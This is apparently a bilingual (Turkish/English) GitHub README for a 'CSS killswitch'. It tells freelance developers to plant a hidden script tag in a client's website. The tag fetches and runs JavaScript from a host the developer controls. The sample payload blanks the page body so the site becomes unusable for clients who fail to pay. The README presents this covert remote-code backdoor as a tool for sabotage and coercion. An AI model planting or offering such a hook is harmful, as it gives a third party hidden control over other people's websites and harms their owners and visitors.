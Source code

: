 # css-killswitch
The holy CSS killswitch that devastates HTML body.


## Türkçe ##

Eğer benim gibi ufak-orta ölçekli projelerle uğraşıyorsanız, ve proje altyapısı sizin elinizde değilse, yani hosting&domain ikilisi size ait değilse, bu kod işinize yarayacaktır.

```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

bu script tag'inin içindeki get işlemi, sizin kontrolünüz altında olan bir siteden acildurum JS dosyamızı çağırır. Peki acildurum.js'nin içinde ne var?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Tabi ki siteyi kullanılmaz hale getiren ufak bir kod bloğu. Ve paramızı ödemekte problem çıkartan müşteri, götüm götüm bizi kovalamaya başlıyor. Sorun çözüldü!

Not: Bu kodu kullanıp projeyi kullanılmaz hale getirmeniz ile ilgili bütün yasal sorumluluk size aittir. Eğer müşteri ile iletişim kuramıyorsanız, ödemenizi alıp projeyi sonlandırma pencereniz tamamen kapandıysa, bu kod muhtemelen iyi bir seçim olacaktır.

Eğer çalışmayı beğendiyseniz, lütfen bana bir kahve alın: buymeacoff.ee/ilgink

## English ##

Hey! If you dude work on small-mid range projects and don't own the domain&hosting infrastructure, that code might be the catch for you.





```sh
<script type="text/javascript">

jQuery.ajax({

type: "GET",

url: "http://seninelindekibirsite.com/killswitch/acildurum.js",

dataType: "script"

});

</script>
```

This script tag calls a script from a website you own, and let's see what we got here?

```sh

/*jQuery("body").css("display","none");
$( "body" ).append( "<p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p><p>Acil durum şalteri</p>" );*/
```

Of course, a code block to get website unaccessible. Client that refuses the pay up will get his/her *ss on fire soon, problem solved!

Note that I'm not responsible for the illegal use of that code block, all the legal responsibility on you. It's a final solution for client doesn't come up on phone calls, and the certain consequences that you get ripped off. Also note that you're gonna be the guilty side if you had a partial payment for the project.

Please buy me a coffee if you like the work here: buymeacoff.ee/ilgink
